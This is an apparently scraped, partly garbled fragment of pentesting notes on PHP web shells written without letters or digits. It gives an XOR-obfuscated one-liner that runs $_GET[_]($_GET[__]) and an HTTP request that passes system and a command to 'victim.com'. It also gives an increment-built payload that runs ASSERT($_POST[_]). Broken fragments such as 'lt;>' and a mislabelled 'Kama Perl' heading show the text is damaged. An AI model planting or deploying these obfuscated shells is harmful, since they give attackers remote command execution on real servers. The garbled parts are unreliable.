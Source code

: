 ```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```
### Kama Perl
```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
<figure><img src="../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>
